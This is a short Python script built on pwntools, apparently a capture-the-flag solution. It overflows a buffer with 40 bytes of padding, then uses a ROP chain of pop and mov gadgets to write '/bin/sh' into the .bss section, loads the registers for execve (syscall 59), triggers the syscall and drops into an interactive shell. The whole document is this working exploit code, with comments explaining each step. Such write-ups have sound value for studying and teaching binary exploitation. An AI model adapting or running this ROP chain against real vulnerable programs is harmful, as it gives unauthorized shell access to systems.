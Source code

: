 ```python
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rsi = rop.find_gadget(["pop rsi", "ret"])[0]
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
mov_rdi_rdx = 0x4340a3                              # mov qword ptr[rdi], rdx; ret;
syscall = rop.find_gadget(["syscall", "ret"])[0]

exploit = b""
exploit += 40 * b"A"

# write filename (-> /bin/sh) to .bss

exploit += p64(pop_rdi)                             # pop rdi <- .bss
exploit += p64(binary.bss())
exploit += p64(pop_rdx)                             # pop rdx <- /bin/sh
exploit += b"/bin/sh\x00"                           # \x00 for complete it to 8 byte
exploit += p64(mov_rdi_rdx)                         # mov qword ptr[rdi], rdx

# we wrote /bin/sh to .bss with moving rdx (/bin/sh) to rdi's pointer (memory of .bss)

exploit += p64(pop_rsi)                             # rsi = 0
exploit += p64(0)
exploit += p64(pop_rdx)                             # rdx = 0
exploit += p64(0)
exploit += p64(pop_rax)                             # rax = 59 (execve's syscall code)
exploit += p64(59) 
exploit += p64(syscall)                             # syscall     

# we call syscall with parameter 59 which is execve
# execve is gonna execute execve(rdi,rsi,rdx)
# What it means? Rewrite with parameters inside registers
# ----------------------> execve("/bin/sh", 0 , 0)
# Now program is going to execute /bin/sh 

io.sendline(exploit)

io.interactive()
```